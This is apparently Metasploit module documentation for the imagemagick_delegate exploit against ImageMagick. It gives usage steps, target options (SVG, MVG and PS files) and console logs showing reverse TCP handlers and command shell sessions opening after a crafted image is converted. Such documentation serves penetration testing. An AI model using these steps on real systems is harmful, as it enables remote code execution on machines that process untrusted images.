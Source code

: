 ## Vulnerable Application

  ImageMagick

## Verification Steps

  Example steps in this format:

  1. Install the ImageMagick
  2. Start msfconsole
  3. Do: ```use exploits/unix/fileformat/imagemagick_delegate```
  4. Do: ```run```
  5. convert msf.png msf.jpg

## Options

  **USE_POPEN**

  When the default option `true` is used, targets 0 (SVG file) and 1 (MVG file) are valid
  When the option is set to `false`, target 2 (PS file) is valid

## Scenarios

## popen=true
  ```
  msf exploit(imagemagick_delegate) > set target 0
  msf exploit(imagemagick_delegate) > run

  [*] Started reverse TCP handler on 1.1.1.1:4444
  [+] msf.png stored at /Users/dmohanty/.msf4/local/msf.png
  [*] Command shell session 1 opened (1.1.1.11:4444 -> 1.1.1.1:57212) at 2016-10-28 12:47:06 -0500
  ```

  ```
  msf exploit(imagemagick_delegate) > set target 1
  msf exploit(imagemagick_delegate) > run

  [*] Started reverse TCP handler on 10.6.0.186:4444
  [+] msf.png stored at /Users/dmohanty/.msf4/local/msf.png
  [*] Command shell session 2 opened (1.1.1.1:4444 -> 1.1.1.1:64308) at 2016-10-28 15:48:40 -0500
  ```

## popen=false
  ```
  msf exploit(imagemagick_delegate) > set target 2
  target => 2
  msf exploit(imagemagick_delegate) > set USE_POPEN false
  USE_POPEN => false
  msf exploit(imagemagick_delegate) > run

  [*] Started reverse TCP handler on 1.1.1.1:4444
  [+] msf.png stored at /Users/dmohanty/.msf4/local/msf.png
  [*] Command shell session 5 opened (1.1.1.1:4444 -> 1.1.1.1:64772) at 2016-10-28 15:58:03 -0500
  ```
